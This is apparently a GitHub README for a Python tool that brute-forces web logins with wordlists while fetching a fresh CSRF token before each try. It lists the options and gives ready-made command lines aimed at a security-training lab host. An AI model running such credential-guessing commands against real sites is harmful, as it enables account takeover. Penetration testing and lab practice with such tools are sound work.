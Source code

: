 ![image](https://github.com/user-attachments/assets/207902fe-2e60-497b-9a79-1ddcb460b7ca)
### -> Bypass CSRF Token Protection with a Multi-threaded Login Bruteforcer
This script is designed to brute force logins and bypass CSRF token protection. It achieves this by automatically capturing the CSRF token before each login attempt.

## Table of Contents
- [Features](#features)
- [Usage](#Usage)
  - [Examples](#examples)
- [Preview](#Preview)
- [Installation](#installation)
- [Commands](#Commands)
- [Contact](#contact)


## Features
- **Automatic CSRF Token Handling**: Automatically captures and uses CSRF tokens during brute force attempts.
- **Multi-threading**: Utilizes multiple threads to increase the speed of brute force attempts.
- **Flexible Configuration**: Supports custom regex patterns and parameter names for CSRF tokens.
- **Status Code and Regex Matching**: Validates login attempts using customizable status codes and regex patterns.
- **To be implemented**: Filter out based on status code and regex.

**Note:** Always open for feature/improvement suggestions.

## Usage
To use this script, specify the following:
```
--csrf-regex : A regex pattern to capture the CSRF token.
--csrf-param : The name of the CSRF token parameter.
```
This additional configuration ensures the script accurately captures and uses CSRF tokens during brute force login attempts.
### Examples
```Python
# Basic Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt
# Using CSRF URL Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

### Preview
![image](https://github.com/user-attachments/assets/6572f919-b586-405a-a365-ebeef00830a2)

## Installation
```bash
git clone https://github.com/WafflesExploits/WafflesFORCE.git
cd WafflesFORCE
python3 wafflesforce.py ...
```
## Commands 
```
╦ ╦╔═╗╔═╗╔═╗╦  ╔═╗╔═╗╔═╗╔═╗╦═╗╔═╗╔═╗
║║║╠═╣╠╣ ╠╣ ║  ║╣ ╚═╗╠╣ ║ ║╠╦╝║  ║╣ 
╚╩╝╩ ╩╚  ╚  ╩═╝╚═╝╚═╝╚  ╚═╝╩╚═╚═╝╚═╝
usage: wafflesforce.py [-h] [--host HOST] [-U [USERS]] [-u [USER]]
                       [-P [PASSWORDS]] [-p [PASSWORD]] [-cr CSRF_REGEX]
                       [-cp CSRF_PARAM] [-cu [CSRF_URL]] [-mr [MATCH_REGEX]]
                       [-ms [MATCH_STATUS]] [-d [DATA]] [-q [QUERY]]
                       [-t [THREADS]] [-o [OUTPUT]] [-vr] [--verbose]

-> Multi-threaded Login Bruteforcer for Bypassing CSRF Token Protection
 

options:
  -h, --help            show this help message and exit
  --host HOST           Target URL.
  -U [USERS], --users [USERS]
                        Path to usernames' wordlist file.
  -u [USER], --user [USER]
                        Specify a single username to use
  -P [PASSWORDS], --passwords [PASSWORDS]
                        Path to passwords' wordlist file.
  -p [PASSWORD], --password [PASSWORD]
                        Specify a single password to use
  -cr CSRF_REGEX, --csrf-regex CSRF_REGEX
                        Specify a Regex pattern to extract the CSRF token. Example:'name="csrf" value="(.*?)">'
  -cp CSRF_PARAM, --csrf-param CSRF_PARAM
                        Specify the CSRF token parameter name to be used in the login POST Request. Example:'csrf'
  -cu [CSRF_URL], --csrf-url [CSRF_URL]
                        URL path to fetch the CSRF token.
  -mr [MATCH_REGEX], --match-regex [MATCH_REGEX]
                        Match the specified regex pattern to verify login attempts. Example:'/login2'
  -ms [MATCH_STATUS], --match-status [MATCH_STATUS]
                        Match specified Status codes. Default:'200-299,301,302'
  -d [DATA], --data [DATA]
                        Body parameters for the POST request. Example:'username=*USER*&password=*PASS*'
  -q [QUERY], --query [QUERY]
                        Feature not added yet - Query parameters for the GET request
  -t [THREADS], --threads [THREADS]
                        Number of threads to use. Default: 5
  -o [OUTPUT], --output [OUTPUT]
                        Outputs results to a file.
  -vr, --verify         Set verify to false. Use this if the website does not support SSL. Example: Uses HTTP instead of HTTPS
  --verbose             Increase Verbosity. Use for debugging or giving more information about login attempts.

[Usage Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt

[Using CSRF URL Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

## Contact
Created by [@WafflesExploits](https://wafflesexploits.github.io/about/) - I'm always open to features/improvement suggestions! You can reach me out on my socials :)
